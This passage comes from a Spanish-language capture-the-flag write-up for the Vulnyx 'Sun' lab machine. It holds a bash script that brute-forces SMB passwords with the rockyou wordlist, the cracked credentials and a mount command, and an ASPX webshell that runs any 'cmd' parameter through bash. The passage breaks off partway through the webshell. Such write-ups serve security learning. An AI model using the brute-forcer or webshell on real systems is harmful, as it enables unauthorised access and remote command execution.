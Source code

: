 ```console
INTENTO=0
STRING="#"

for i in $(cat /usr/share/wordlists/rockyou.txt)
do
	PERCENT=$((INTENTO * 100 / 14344392))
	[ $((INTENTO % 50)) -eq 0 ] && STRING="${STRING}#" && echo -n -e "\r\t$PERCENT% $STRING"
	smbclient -L //192.168.1.13/ -U "punt4n0%$i" >/dev/null
	if [ $? -eq 0 ]
	then
		echo -e "$INTENTO:\t$i"
		exit 0
	fi
	INTENTO=$((INTENTO+1))
done
```
El script nos devuelve una contraseña: "sunday".![image](https://github.com/Koh4kU/Writeups/assets/82893511/303dc0d8-42d1-405f-b2f2-3c11175131e4)  
En este caso hemos creado un script muy sencillo de bash que nos ha funcionado en poco tiempo, en caso de que esto se fuese de tiempo, tendríamos que agilizar la ejecución utilizando varios hilos o procesos.  
Ya que tenemos la contraseña, podemos entrar en la máquina con SMB o para hacerlo más sencillo y cómodo, podemos montarnos una partición con el share del usuario:
```console
$ mkdir /mnt/Sun
$ mount -t cifs -o user=punt4n0 -o password=sunday //10.0.2.5/punt4n0 /mnt/Sun
```
### Gaining access/Explotation ###
Analizando el share que nos hemos montado en nuestra partición, observamos que tiene la misma estructura que el servicio web, por lo que podemos crear reverse shells o una ejecución de RCE y probar a explotarlo vía el servicio web. Probamos con diferentes webshells y en una de las peticiones, podemos ver que lo que se está ejecutando internamente es ASP.NET, por lo que ahora sí podemos crear una webshell/script en aspx, para poder vulnerar el servicio de forma correcta.
[Different webshells](https://github.com/Koh4kU/Writeups/tree/main/Vulnyx/Sun/scripts)
En mi caso funcionó un pequeño script que nos permite ejecutar un RCE mediante: "url?cmd=\<command\>". [RCE script aspx](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/scripts/last_reverse_shell.aspx) 
```console
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>

<script runat="server">

protected void Page_Load(object sender, EventArgs e)
{
    string reverse = Request["cmd"];
    
    if (!string.IsNullOrEmpty(reverse))
    {
        ExecuteCommand(reverse);
    }
}

private void ExecuteCommand(string command)
{
    try
    {
        Process proc = new Process();
        proc.StartInfo.FileName = "/bin/bash";
        proc.StartInfo.Arguments = "-c \"" + command + "\"";
        proc.StartInfo.RedirectStandardOutput = true;
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.CreateNoWindow = true;
```